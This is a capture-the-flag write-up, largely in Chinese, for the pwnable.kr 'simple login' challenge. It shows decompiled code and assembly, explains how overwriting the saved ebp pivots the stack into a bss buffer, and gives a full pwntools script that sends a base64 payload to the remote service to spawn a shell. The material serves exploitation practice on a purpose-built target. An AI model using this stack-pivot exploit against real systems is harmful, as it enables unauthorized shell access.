 # simple login

```
[*] '/home/simplelogin/simplelogin'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```


將輸入的內容 b64 decode 後，並且要長度<0xc

將 decode 後內容複製到 bss 段

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int nn_b64_decode_res; // [esp+18h] [ebp-28h]
  char nn_user_input; // [esp+1Eh] [ebp-22h]
  unsigned int nn_b64_len; // [esp+3Ch] [ebp-4h]

  memset(&nn_user_input, 0, 30u);
  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 1, 0);
  printf("Authenticate : ");
  _isoc99_scanf("%30s", &nn_user_input);
  memset(&nn_input_bss, 0, 12u);
  nn_b64_decode_res = 0;
  nn_b64_len = Base64Decode((int)&nn_user_input, &nn_b64_decode_res);
  if ( nn_b64_len > 0xC )
  {
    puts("Wrong Length");
  }
  else
  {
    memcpy(&nn_input_bss, nn_b64_decode_res, nn_b64_len);
    if ( auth(nn_b64_len) == 1 )
      correct();
  }
  return 0;
}
```

```c 
_BOOL4 __cdecl auth(int a1)
{
  char v2; // [esp+14h] [ebp-14h]
  char *nn_md5; // [esp+1Ch] [ebp-Ch]
  int v4; // [esp+20h] [ebp-8h]  

  memcpy(&v4, &nn_input_bss, a1);
  nn_md5 = (char *)calc_md5((int)&v2, 12);
  printf("hash : %s\n", nn_md5);
  return strcmp("f87cd601aa7fedca99018a8be88eda34", nn_md5) == 0;
}
```


```c 
void __noreturn correct()
{
  if ( nn_input_bss == 0xDEADBEEF )
  {
    puts("Congratulation! you are good!");
    system("/bin/sh");
  }
  exit(0);
}
```


```
; auth


nn_input_cpy= byte ptr -14h  //size 8  0x14-0xc
nn_md5= dword ptr -0Ch
nn_len= dword ptr  8

push    ebp
mov     ebp, esp
sub     esp, 28h
mov     eax, [ebp+8]
mov     [esp+8], eax
mov     dword ptr [esp+4], offset nn_input_bss
lea     eax, [ebp-14h]
add     eax, 0Ch  // 再加上 0xc 移動到 ptr -0x8
mov     [esp], eax
call    memcpy
mov     dword ptr [esp+4], 0Ch
lea     eax, [ebp-14h]
mov     [esp], eax
call    calc_md5
```



在 auth a1 長度可以到 12 ，從 ptr -0x8 開始蓋，存在 nn_input_cpy overflow ，可以蓋到 ebp ，蓋不到 ret

首先通過控制函數 auth stack 保存的ebp，接著在 auth 結尾處通過 `pop ebp;mov esp,ebp` 控制 main 函數的 esp 的值

然後 main 函數的結尾通過 `mov esp, ebp` 控制 esp 的值，把 esp 移動到 bss 我們輸入可控的地方，因為已經放上 system addr，進而通過 pop eip 控制 eip 的值，最終跳至 system("/bin/sh")

這邊要利用到兩次 ret ，auth and main，先利用蓋掉ebp，使stack在ebp在我們的input 位置

同時input位置存放 08049284 用於呼叫shell




```
.text:08049284                 mov     dword ptr [esp], offset aBinSh ; "/bin/sh"
.text:0804928B                 call    system

.bss:0811EB40 nn_input_bss    db    ? ;     aaaa    addr
.bss:0811EB40                                   
.bss:0811EB41                 db    ? ;
.bss:0811EB42                 db    ? ;
.bss:0811EB43                 db    ? ;
```

```python=
from pwn import *

#rm=process('./login')
context.log_level = 'debug'
rm=remote('pwnable.kr',9003)

nn_input_bss=0x0811EB40
system=0x08049284

rm.recvuntil(":")

payload= b'a'*4 + p32(system) + p32(nn_input_bss)
                                # control esp
payload= b64e(payload)

rm.send(payload)
rm.send('\n')

# rm.recvuntil("hash")

rm.interactive()
```



